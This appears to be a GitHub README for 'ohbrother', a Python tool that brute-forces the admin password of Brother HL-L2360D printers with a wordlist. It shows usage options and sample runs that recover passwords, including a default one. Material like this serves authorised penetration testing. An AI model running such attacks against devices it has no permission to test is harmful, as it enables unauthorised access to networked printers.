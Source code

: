 # ohbrother
Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] {/home/kali/ohbrother.py:60} INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] {/home/kali/ohbrother.py:66} INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] {C:\Users\DrewQ\Desktop\Brother\main.py:49} INFO - [*] default password was set: initpas
```
